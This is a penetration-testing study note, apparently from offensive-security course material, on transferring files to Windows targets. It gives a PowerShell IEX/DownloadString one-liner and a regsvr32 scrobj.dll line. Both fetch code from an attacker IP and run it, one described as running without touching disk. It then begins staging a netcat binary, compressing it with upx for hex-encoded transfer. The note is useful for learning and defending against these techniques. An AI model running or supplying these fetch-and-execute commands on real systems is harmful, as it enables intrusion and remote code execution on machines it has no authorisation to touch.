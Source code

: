 
Now: To execute malicious binary w/o saving the file to disk, add the **IEX** cmdlet & use **DownloadString**:  
```powershell
powershell.exe IEX (New-Object System.Net.WebClient).DownloadString('http://10.11.0.4/helloworld.ps1')


OR


regsvr32.exe /s /n /u /i:http://10.11.0.4/evil.exe scrobj.dll
```



### exe2hex & PS

Through a series of non-interactive commands.  
  
Starting on our Kali machine, we will compress the binary we want to transfer, convert it to a hex string, and embed it into a Windows script.  
On the Windows machine, we will paste this script into our shell and run it.  
It will redirect the hex data into powershell.exe, which will assemble it back into a binary.  
  
Setup:
	In Kali:  
1. Copy **nc** binary to our working directory:  
```bash
kali@kali:~$ locate nc.exe | grep binaries  
/usr/share/windows-resources/binaries/nc.exe  
  
kali@kali:~$ cp /usr/share/windows-resources/binaries/nc.exe .  
  
kali@kali:~$ ls -lh nc.exe  
-rwxr-xr-x 1 kali kali 58K Sep 18 14:22 nc.exe
```

2. Compress w/ [upx](PWK--Tools--upx.html):  
```bash
kali@kali:~$ upx -9 nc.exe  
                       Ultimate Packer for eXecutables  
                          Copyright (C) 1996 - 2018  
UPX 3.95        Markus Oberhumer, Laszlo Molnar & John Reiser   Aug 26th 2018  
  
        File size         Ratio      Format      Name  
   --------------------   ------   -----------   -----------  
     59392 ->     29696   50.00%    win32/pe     nc.exe  
Packed 1 file.  
  
kali@kali:~$ ls -lh nc.exe  
-rwxr-xr-x 1 kali kali 29K Sep 18 14:22 nc.exe
```

- Binary's compressed to about 1/2 its size, but it's ([PE](Portable%20Executable.md)) still functional and can be run normally.  
  